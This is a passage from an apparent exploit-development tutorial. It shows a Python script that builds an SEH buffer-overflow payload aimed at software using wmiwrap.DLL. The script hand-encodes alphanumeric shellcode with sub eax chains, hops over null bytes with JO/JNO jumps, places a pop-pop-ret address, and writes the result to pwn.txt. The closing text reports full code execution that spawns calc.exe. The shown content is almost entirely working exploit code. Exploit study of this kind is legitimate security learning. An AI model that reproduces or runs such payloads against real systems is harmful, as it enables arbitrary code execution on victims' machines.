 ```console
# 3rd line = 34313635 34313434 34313434
shellcode += zero
shellcode += "\x2d\x35\x36\x31\x34" # sub eax, 0x34313635
shellcode += "\x2d\x34\x34\x31\x34" # sub eax, 0x34313434
shellcode += "\x2d\x34\x34\x31\x34" # sub eax, 0x34313434
shellcode += "\x50" # push eax

# 4th line = 323A1245 323A1245 333A1245
shellcode += zero
shellcode += "\x2d\x45\x12\x3a\x32" # sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x32" # sub eax, 0x323A1245
shellcode += "\x2d\x45\x12\x3a\x33" # sub eax, 0x333A1245
shellcode += "\x50" # push eax

# We need to restore the old ESP value of 0x0012DC98 to spawn calc.exe.
# We need the ESP value before execution. We will do this by performing MOV ECX, ESP (remember ECX contains old ESP!).
# Here are the 3 values: 403F2711 3F3F2711 3F3F2811
move = zero
move += "\x2d\x40\x3f\x27\x11" # sub eax, 0x403F2711
move += "\x2d\x3f\x3f\x27\x11" # sub eax, 0x3F3F2711
move += "\x2d\x3f\x3f\x28\x11" # sub eax, 0x3F3F2811
move += "\x50" # push eax

# All together now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e" # JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10" # 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122 # add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e" # JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e" # JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79" # JO or JNO only 121 bytes
payload += "\x41" * 121 # NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += alignment
payload += shellcode
payload += move
payload += "\x43" * (5000-len(payload))

f = open('pwn.txt', 'w')
f.write(payload)
f.close()
```

Going For The Kill
---
After executing the shellcode, we achieve code execution!!!!! We have now moved from a PoC of a DOS vulnerability, to full-fledged code execution. Here is a screenshot:
